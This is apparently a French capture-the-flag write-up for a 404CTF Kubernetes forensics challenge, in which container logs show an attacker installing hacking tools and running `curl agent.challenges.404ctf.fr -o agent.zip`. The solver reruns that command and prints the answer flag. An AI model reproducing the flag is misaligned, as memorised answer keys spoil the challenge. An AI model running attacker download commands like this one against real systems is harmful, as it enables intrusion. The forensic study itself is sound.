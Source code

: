 # Les Mystères du cluster de la Comtesse de Ségur [1/2]

## Enoncé
Vous rencontrez la Comtesse de Ségur au Procope. La Comtesse de Ségur a créé une entreprise de vente de livres en ligne en s'aidant du succès de ses livres pour enfants et l'a déployé sur un cluster Kubernetes.

Celle-ci vous explique avoir été victime d'une demande de rançon. En effet, quelqu'un lui a volé ses livres pas encore publiés et menace de les publier sur Internet si elle ne lui paye la rançon demandée.

La Comtesse vous demande d'enquêter sur la manière dont le maître chanteur a pu voler ses livres et vous donne pour cela les informations à sa disposition.


## Solution
On commence par décompresser le fichier zip fourni, puis nous parcourons les fichiers de l'archive dans l'objectif de comprendre comment le maître chanteur a pu voler les livres. Notre attention se porte sur le fichier `io.kubernetes.cri-o.LogPath`, qui pourrait contenir des logs qui permettraient de comprendre ce qui c'est passé. Au cours de notre exploration de ce fichier, nous tombons sur une section où des outils de piratage sont installés, notamment [carlospolop](https://github.com/sponsors/carlospolop). Il semble donc que nous soyons sur la bonne piste.

<p align="center"><img src="Hacking Tools.png" alt="Hacking Tools" width="200"></p>

Nous poursuivons l'analyse des journaux pour identifier les actions réalisées par l'attaquant. Nous constatons alors qu'il a téléchargé un fichier zip depuis le serveur du CTF à l'aide de la commande suivante : `curl agent.challenges.404ctf.fr -o agent.zip`.

<p align="center"><img src="Attacker Command.png" alt="Attacker Command" width="200"></p>

Nous exécutons alors cette commande, ce qui nous permet de récupérer le fichier zip nommé `agent.zip`. Après décompression, nous découvrons à l'intérieur un fichier `flag.txt` qui contient le précieux flag.

## Flag

<details>
<summary> Flag 🚩</summary>

```
404CTF{K8S_checkpoints_utile_pour_le_forensic}
```